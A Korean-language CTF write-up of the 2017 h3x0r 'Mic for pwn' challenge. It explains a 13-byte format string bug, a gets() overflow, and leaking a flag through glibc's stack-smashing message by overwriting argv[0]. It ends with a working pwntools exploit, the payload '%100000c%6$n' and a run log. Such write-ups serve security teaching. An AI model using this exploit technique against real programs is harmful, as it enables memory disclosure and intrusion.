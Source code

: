 # 2017 h3x0r PWN - Mic for pwn

## Key words

- i386 | NX | SSP
- Format String Bug (FSB)
- Leak memory by SSP

## Solution

문제를 보면 몇 가지 의심 상황이 보입니다.

먼저 버그가 발생되는 지점은 다음과 같습니다.

```c
  fn_vul_80487F1((int)"Give me your name!\n");
  fgets(g_buf_0804a085, 13, stdin);
  fn_vul_80487F1((int)"If you want start, press enter\n");
  do
    v2 = getchar();
  while ( v2 != 10 && v2 != -1 );
  fn_vul_80487F1((int)"Your name is ");
  printf(g_buf_0804a085); # Format String Bug
```

일반적인 FSB 버그인데, 한 가지 제약사항은 단 한번만 가능하고 13바이트만 스트링으로 입력 할 수 있다는 점 입니다.

다음으로 프로그램 로직을 살펴 보면 처음에 `0x0804a050` 위치에 소지하고 있는 돈이 존재 하고, 사용자의 입력을 받아 1~10000 까지의 숫자를 맞추는 형식 입니다.

만약 소지하고 있는 금액이 99999를 넘게 되면 다음 로직으로 들어가게 됩니다.

```c
int fn_congratz_804885D()
{
  char s; // [sp+18h] [bp-20h]@1
  int v2; // [sp+2Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fn_vul_80487F1((int)"For the save record,Give me the Comment!\n");
  fn_vul_80487F1((int)"Comment : \n");
  gets(&s);
  fn_vul_80487F1((int)"Save Successfully!\n");
  return *MK_FP(__GS__, 20) ^ v2;
}
```

`ebp-0x20` 변수에서 `gets`에 의해 버퍼 오버플로우가 발생하게 됩니다. 하지만 `SSP`가 걸려 있어 스택 버퍼 오버플로우를 시킬 수 없습니다.

마지막으로 프로그램 시작 시, 굉장히 의심스러운 루틴으로 먼저 접근하게 됩니다.

```c
int sub_804870D()
{
  int v0; // ST4C_4@1
  FILE *v1; // ST14_4@1

  v0 = *MK_FP(__GS__, 20);
  v1 = fopen("flag", "r");
  __isoc99_fscanf(v1, "%s", &unk_804A0A0);
  setenv("LIBC_FATAL_STDERR_", "1", 0);
  return *MK_FP(__GS__, 20) ^ v0;
}
```

이 루틴은 처음에 시작하는데 `xref`를 찾아봐도 없길래 동적 디버깅해서 따라가본 결과 `Main`이 실행되기 전에 다음과 같이 동적 호출에 의해 플래그를 `0x0804a0a0`에 넣는 루틴을 타게 됩니다.

```
.text:080486F2                 push    ebp
.text:080486F3                 mov     ebp, esp
.text:080486F5                 sub     esp, 18h
.text:080486F8                 mov     [esp+1Ch+var_1C], offset dword_8049F10
.text:080486FF                 call    eax
```

총합 해보면 다음과 같습니다.
- 프로그램 시작 시 `0x0804a0a0` 위치에 플래그를 저장
- 프로그램에는 한 번의 13바이트 FSB 기회가 존재
- `0x0804a050`의 값이 99999를 넘게 되면 버퍼 오버플로우 버그가 존재하는 함수를 호출

결론적으로, SSP의 Stack Smashing 에러 메시지를 이용하여 `0x0804a0a0`를 출력하면 됩니다.

SSP에 의해 메모리 노출되는 시나리오에 대한 내용은 해당 루틴을 조금만 따라 가보면 다음과 같음을 알 수 있습니다.

먼저, 스택 버퍼 오버플로우에 의해 스택 카나리가 깨지고 결국 `call <__stack_chk_fail@plt>` 을 하게 됩니다.

`__stack_chk_fail`은 GNU C Library에서 찾을 수 있으며 위치는 `debug/stack_chk_fail.c`에 구현이 존재합니다.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
```

`__fortify_fail`을 조금 더 따라 가보면 다음과 같습니다.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__fortify_fail (msg)
     const char *msg;
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```

우리가 일반적으로 SSP를 위반했을 때 발생되는 메시지가 보이네요. 중요한점은 terminate의 메시지가 argv[0]을 쓴다는 점 입니다.

이를 이용하여 한 번의 메모리 노출 기회로 우리가 원하는 행위를 할 수 있는 경우, SSP 로직의 이 부분을 이용하여 공격을 할 수가 있습니다.

이 문제는 위의 조건에 만족하기 때문에 다음과 같은 시나리오를 생각해봅니다.

- FSB를 이용하여 사용자 소지금을 99999이상 설정
- `congratz` 함수에서 버퍼 오버플로우를 이용하여 스택을 메인 방향으로 계속 `0x0804a0a0`를 덮어 씀
- 메인의 인자 argv[0] 까지 정상적으로 덮히게 되면 `congratz`함수가 끝날 때 스택 카나리를 확인하게 되고 위의 abort 메시지 출력 루틴을 타게 되면서 argv[0] = `0x0804a0a0`를 출력하게 됨

현재 스택에서 소지금의 위치가 얼마나 떨어져 있는지 찾기 위해 동적으로 디버깅하여 포멧 스트링의 위치와 소지금의 위치에 대한 오프셋을 계산하였고, 그 뒤에 `0x0804a0a0`를 스프레잉 하여 플래그를 얻었습니다.

## Exploit code
```python
from pwn import *
context(arch="i386", os="linux")

server = "52.25.103.221"
port = 9003

r = remote(server, port)
#r = process("./mic_for_pwn")

print r.recv()
payload = "%100000c%6$n"

r.send(payload + "\x0a")
for i in xrange(30): print r.recv()

addr_flag = 0x0804a0a0
payload = p32(addr_flag) * 0x100
r.send(payload + "\x0a")

print r.recv()
r.interactive()
```

## Result
```
hackability@ubuntu:~/ctf/pwnable/0011_2017_h3x0r_MicForPwn$ python sol_mic.py
[+] Opening connection to 52.25.103.221 on port 9003: Done
==========Welcome to my Game==========

| You have to guess a correct number |
| Rule is easy, get a 100 thousand!  |
| Now game is start, plz  enjoy it!  |
======================================
Give me your name!

If you want start, press enter

...<snip>...

Your money is 100000
Congratulation!
For the save record,Give me the Comment!
Comment :
Save Successfully!
*** stack smashing detected ***: H3X0R{s1mp1e_ssp_le4k_w1th_overwri77en_ct0r} terminated
[*] Got EOF while reading in interactive
```
